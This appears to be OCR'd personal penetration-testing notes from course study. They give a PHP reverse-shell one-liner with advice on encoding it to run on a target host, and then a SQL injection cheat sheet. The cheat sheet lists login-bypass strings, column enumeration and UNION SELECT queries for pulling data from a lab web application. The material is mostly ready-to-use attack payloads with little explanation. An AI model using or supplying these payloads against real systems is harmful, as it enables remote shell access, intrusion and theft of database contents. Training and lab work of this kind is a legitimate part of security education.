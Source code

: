 








php -r '$sock=fsockopen("127.0.0.1",81);exec("/bin/sh -i <&3 >&3 2>&3");'


This reverse shell command contains special characters that will prevent it from executing on the
target host without proper encoding.  So please encode it [watch out for the ampersand char]




=============================


125) SQL injection cheat sheet



sql injection commands












testing for sql injection
from pwk course : wrong' OR 1=1;#
from some machine on vuln hub: 'or 'a'='a' #
wrong' OR 1=1 LIMIT 1;#




maniplulating the id paramter
1) test for injection
http://10.11.1.35/comment.php?id=738'


2) enumerate the number of columns
http://10.11.1.35/comment.php?id=738 order by 1
http://10.11.1.35/comment.php?id=738 order by 2
http://10.11.1.35/comment.php?id=738 order by 3
http://10.11.1.35/comment.php?id=738 order by 4
http://10.11.1.35/comment.php?id=738 order by 5
// until you find an error that is the number of columns


3) understanding the layout of the output
where are the outputs echod back


http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,5,6
look in the response for those numbers. that is where your outputs will be echoed back.




4) extracting data from the database
mysql version
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,@@version,6
